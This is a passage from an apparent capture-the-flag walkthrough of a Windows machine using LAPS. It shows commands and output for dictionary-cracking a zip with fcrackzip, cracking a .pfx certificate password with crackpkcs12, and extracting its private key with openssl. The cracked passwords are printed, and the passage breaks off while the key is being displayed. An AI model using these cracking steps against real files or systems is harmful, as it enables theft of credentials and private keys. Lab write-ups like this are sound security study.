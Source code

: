```
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as LAPS_TechnicalSpecification.docx (162.1 KiloBytes/sec) (average 328.6 KiloBytes/sec)
```

## Brute Forcing
***

This ```.docx``` documents contain information about LAPS. The next step I took was to unzip the backup file and check for more sensitive information. However, the file inside this zip was protected by a password. I used Arch Linux and I had an issue cracking this .zip file so I had to download it from Parrot Linux and I used fcrackzip to find the password: 

```
$ fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt ./winrm_backup.zip


PASWORD FOUND!!!!: pwd == supremelegacy
```
Now we can unzip it and we can see that there is a .pfx file inside it. A .pfx file contains a SSL certificate and the corresponding private keys:
```
❯ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
❯ ls
 LAPS_Datasheet.docx         LAPS_TechnicalSpecification.docx   walkthrough.md   
 LAPS_OperationsGuide.docx   legacyy_dev_auth.pfx 
```
I wanted to extract the private key using this openssl command: ```openssl pkcs12 -in legacy_dev_auth.pfx -nocerts -out priv-key.pem -nodes ``` but it required another password. After googling a bit, I decided to try with the ```crackpkcs12``` tool and rockyou.txt to bruteforce the password again: 
```
crackpkcs12 -d /home/adri/Desktop/adri/utils/rockyou.txt -v legacyy_dev_auth.pfx

Dictionary attack - Starting 2 threads

Performance:              3232878 passwords [   11732 passwords per second]
*********************************************************
Dictionary attack - Thread 2 - Password found: thuglegacy
*********************************************************
``` 
Now we can extract the private key and read it: 
```
❯ openssl pkcs12 -in certname.pfx -nocerts -out key.pem -nodes
Can't open certname.pfx for reading, No such file or directory
140137388039040:error:02001002:system library:fopen:No such file or directory:crypto/bio/bss_file.c:69:fopen('certname.pfx','rb')
140137388039040:error:2006D080:BIO routines:BIO_new_file:no such file:crypto/bio/bss_file.c:76:
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password:
❯ ls
 key.pem               LAPS_OperationsGuide.docx          legacyy_dev_auth.pfx   winrm_backup.zip
 LAPS_Datasheet.docx   LAPS_TechnicalSpecification.docx   walkthrough.md         zip.hash
❯ cat key.pem
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: key.pem
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Bag Attributes
   2   │     Microsoft Local Key set: <No Values>
   3   │     localKeyID: 01 00 00 00 
```